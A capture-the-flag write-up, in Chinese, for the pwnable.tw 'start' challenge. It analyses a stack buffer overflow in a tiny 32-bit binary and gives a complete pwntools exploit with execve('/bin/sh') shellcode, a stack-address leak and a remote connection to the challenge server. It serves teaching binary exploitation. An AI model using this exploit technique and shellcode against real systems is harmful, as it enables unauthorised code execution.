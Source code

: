 ```yaml
---
title: pwnable.tw - start Writeup
published: 2025-04-23 16:20:30
description: ''
image: ''
tags: ['pwnable.tw', 'pwn']
category: 'CTF'
draft: false 
lang: ''
---
```


## Beacon

先檢查檔案類型，是個 32 位元的 ELF 檔案。

```zsh
➜ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

保護機制全都沒有開。

```zsh
➜ checksec --file=start
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   8 Symbols         No    0               0               start
```

```zsh
gef➤  checksec
[+] checksec for '/home/yuto/pwnable_tw/start/start'
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
```

執行看看觀察程式的行為，會有一個輸入，接著就結束程式了。同時可以發現在輸入 20 個 A 時，程式會 segmentation fault，代表可能有 stack buffer overflow 的漏洞可以利用。

```zsh
➜ ./start
Let's start the CTF:aaaaaaaaaaaaaaaaaaaa
[1]    81889 segmentation fault (core dumped)  ./start
```

## Analysis

用 radare2 嘗試分析程式

```
r2 -AAA start
[0x08048060]> afl
0x08048060    1     61 sub.entry0_8048060
```

可以看到只有一個函式 `sub.entry0_8048060` 在記憶體位址 `0x08048060`。

### Program flow

反組譯的程式碼中，很明顯地可以看到程式一開始印出的字串 `Let's start the CTF:`，同時也可以看到最下方有透過 `int 0x80` 進行兩次系統呼叫。

![r2 disas](r2-disas.png)
> radare2 反組譯的程式碼

| syscall | eax | arg0(ebx)       | arg1(ecx)       | arg2(edx)    |
| ------- | --- | --------------- | --------------- | ------------ |
| read    | 3   | unsigned int fd | char *buf       | size_t count |
| write   | 4   | unsigned int fd | const char *buf | size_t count |
> 系統呼叫表

因此兩次的系統呼叫大致如下：

```c
write(1, "Let's start the CTF:", 20);
read(0, buf, 60);
```

### Memory

整個程式的 stack 使用狀況如下：

![stack analysis](stack-analysis.png)

## Vuln

目標是注入 shellcode 並覆蓋 return address 控制執行流程。但是目前對於記憶體位址的資訊不足，因此要想辦法先 leak 出 stack 的記憶體位址，然後再跳到 shellcode。

可以發現程式碼的部分在傳遞 `write` 的 `buf` 參數時，是直接把 `esp` 丟進去，所以剛好可以利用 `write` 來印出儲存在 stack 裡 `esp` 的記憶體位址，程式流程大致如下：

1. 輸入 `b"A" * 20 + write_addr`
2. stack 的內容被復原，程式執行 `ret`，此時 `esp` 指向的位址中是前一個 `esp` 的值
3. 跳回 write 的 `int 0x80` 那一行（`0x08048087`），印出前一個 `esp`

而接下來執行的 `read()` 也是把 `esp` 當作 `buf` 的指標，就可以在此時把 shellcode 送進 stack。但要注意的是，在程式執行 `ret` 前會先執行 `add esp, 0x14`，因此複寫 return address 的位址要在那之後。

![exploit](exploit.png)

> - `esp` 是第一次執行時的 stack pointer
> - `prev esp` 是第一次執行時的前一個 stack pointer
> - `write esp` 是覆蓋 retrun address 後，執行 `ret` 後的 stack pointer
> - `read esp` 是呼叫 `read()` 時的 stack pointer，同上

最後再用一點簡單的 shell 魔法，就可以順利拿到 flag 了。

```zsh
find / -name flag | xargs cat
```

## Exploit

```py
from pwn import *
import sys

BINARY = "./start"
REMOTE = "chall.pwnable.tw:10000"
DEBUG = len(sys.argv) > 1 and sys.argv[1] == "debug"

context.arch = "i386"
context.os = "linux"
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "info"

# setup gdb scripts
GDBSCRIPT = """
b _start
"""


def connect():
    if DEBUG:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    else:
        host, port = REMOTE.split(":")
        return remote(host, int(port))


write_addr = 0x08048087
shellcode = asm("""
    xor     eax, eax
    push    eax
    push    0x68732f2f
    push    0x6e69622f
    mov     ebx, esp
    xor     ecx, ecx
    xor     edx, edx
    mov     al , 0xb
    int     0x80
    """)


def exploit(io):
    payload = b"A" * 20 + p32(write_addr)
    io.sendafter(b":", payload)
    prev_esp = u32(io.recv(4))
    info("prev_esp: " + hex(prev_esp))
    io.recv()

    payload = b"A" * 20 + p32(prev_esp + 20) + shellcode
    io.send(payload)

    io.sendline(b"find / -name flag | xargs cat")

    flag = io.recvline().strip()
    success("flag: " + flag.decode())

    io.close()


if __name__ == "__main__":
    io = connect()
    try:
        exploit(io)
    finally:
        io.close()
```

最終執行的結果：

![win](win.png)